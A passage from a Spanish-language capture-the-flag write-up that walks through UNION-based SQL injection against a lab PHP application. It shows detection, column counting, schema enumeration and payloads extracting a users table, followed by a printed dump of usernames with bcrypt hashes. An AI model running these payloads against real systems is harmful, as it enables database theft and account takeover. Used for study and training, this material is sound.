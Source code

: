 Acabamos de abusar de esta característica al manipular los datos de entrada de una aplicación PHP para realizar comparaciones que resulten en valores inesperados o falsos positivos, lo que puede conducir a vulnerabilidades de seguridad como la inyección de SQL o la omisión de autenticación.
Incluso se acepta como cadena. Lo que refuerza la probabilidad de SQL Injection:    
![sqlidetect](https://i.postimg.cc/mZPhGsNN/sqlidetect.png)

## SQL Injection
Modificaremos el valor del parámetro **id** para ingresando una comilla simple para detectar si se produce algún error de sintaxis de SQL:   
![sqli_detected](https://i.postimg.cc/3JyG9Gch/sqlidetect.png)

Como vemos se produce un error y el servidor responde con un código de estado **500**. Realizamos un ordenamiento por columnas para determinar la cantidad de estas en la tabla:   
![orderby4](https://i.postimg.cc/1X1zHgnm/orderby4.png)

Como se aprecia al ordenar por 4 el error persiste. Caso contrario si ordenamos por 3 volveremos a visualizar el texto del perfil en cuestión:
![ordby3](https://i.postimg.cc/CxqQyzzT/orderby3.png)

Desde este punto podemos probar realizando una inyección SQL basada en UNION:
![sqlunion](https://i.postimg.cc/7hknc8Kg/sqlunion.png)

La sintaxis funciona pero no vemos reflejado ninguno de los 3 valores.
Observamos que si cambiamos el valor **`8`** del **`id`** por una cadena envuelta en comillas simples vemos reflejado el valor 3:
```sql
"'H4RR1' UNION SELECT 1,2,3-- -"
```
![sqlsintax](https://i.postimg.cc/LshSqGBB/sqlsintax.png)

### Enumeración de la BD
Vemos que la base de datos en uso es **uhc**:     
![bd](https://i.postimg.cc/8zZJgQzh/bd.png)

Ahora enumeraremos las tablas de esta base de datos:
```sql
UNION SELECT 1,2,GROUP_CONCAT(table_names) FROM information_schema.tables WHERE table_schema='uhc'
```
![bdenum](https://i.postimg.cc/y6pbxWp5/bdenum.png)

Y vemos la tabla de interés **`users`**. Por lo que procedemos a enumerarla:
```sql
UNION SELECT 1,2,GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name = 'users'
```

![userstb](https://i.postimg.cc/Hxq307Gs/userstb.png)
Desde este punto creamos una query para extraer el contenido de las columnas **`name`** y **`password`**:    
```sql
UNION SELECT 1,2,GROUP_CONCAT(name,':',password,'\n') FROM uhc.users-- -
```
![passdb](https://i.postimg.cc/9fq7dgcZ/passdb.png)
```sql
big0us:$2y$10$L3X8m6P1w.F2aO011ffWr.587vGCYeFXuXwE2vr3DbrYkcuF741N2
,celesian:$2y$10$8ewqN3lE9iazbo8sFiwUleeNIbOpAMRcaMzeiXJ50wlItN2Kd5pI6
,luska:$2y$10$KdZCbzxXRsBOBHI.91XIz.O.lQQ3TqeY8uonzAumoAv6v9JVQv3g.
,tinyb0y:$2y$10$X501zxcWLKXf.OteOaPILuhMBIalFjid5bBjBkrst/cynKL/DLfiS
,o-tafe:$2y$10$XIrsc.ma/p0qhvWm9.sqyOnA5184ICWNverXQVLQJD30nCw7.PyxW
,watchdog:$2y$10$RTbD7i5I53rofpAfr83YcOK2XsTglO01jVHZajEOSH1tGXiU8nzEq
,mydonut:$2y$10$7DFlqs/eXGm0JPVebpPheuEx3gXPhTnRmN1Ia5wutECZg1El7cVJK
,bee:$2y$10$Furn1Q0Oy8IbeCslv7.Oy.psgPoCH2ds3FZfJeQlCdxJ0WVhLKmzm
```